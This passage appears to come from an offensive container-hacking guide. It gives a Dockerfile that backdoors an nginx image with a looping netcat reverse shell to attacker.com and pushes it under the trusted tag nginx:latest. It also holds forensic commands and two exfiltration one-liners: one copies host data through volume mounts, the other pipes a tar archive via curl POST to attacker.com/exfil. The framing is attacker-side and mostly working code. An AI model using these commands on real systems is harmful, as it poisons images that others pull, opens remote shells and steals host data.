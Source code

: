 ### Backdooring Container Images

```bash
# Build backdoored image
cat > Dockerfile << EOF
FROM nginx:latest
RUN apt-get update && apt-get install -y netcat
RUN echo '#!/bin/bash' > /usr/local/bin/entrypoint.sh
RUN echo 'nohup bash -c "while true; do nc attacker.com 4444 -e /bin/bash; sleep 30; done" &' >> /usr/local/bin/entrypoint.sh
RUN echo 'nginx -g "daemon off;"' >> /usr/local/bin/entrypoint.sh
RUN chmod +x /usr/local/bin/entrypoint.sh
ENTRYPOINT ["/usr/local/bin/entrypoint.sh"]
EOF

docker build -t nginx:latest .
docker push nginx:latest
```

## Container Forensics and Post-Exploitation

After successful exploitation, forensic analysis and post-exploitation activities help maximize the value of your access.

### Container Forensic Analysis

```bash
# Extract container filesystem
docker export [container-id] > container.tar
mkdir container-fs
tar -xf container.tar -C container-fs

# Analyze container logs
docker logs [container-id]

# Analyze container events
docker events --since '1h' --filter container=[container-id]

# Extract container metadata
docker inspect [container-id] > metadata.json
```

### Data Exfiltration Techniques

```bash
# Using volume mounts for data exfiltration
docker run -v /host/sensitive/data:/data -v $(pwd):/exfil alpine sh -c "cp /data/* /exfil/"

# Network-based exfiltration
docker run -it --network=host alpine sh -c "tar -cz /data | curl -X POST -H 'Content-Type: application/octet-stream' --data-binary @- https://attacker.com/exfil"
```
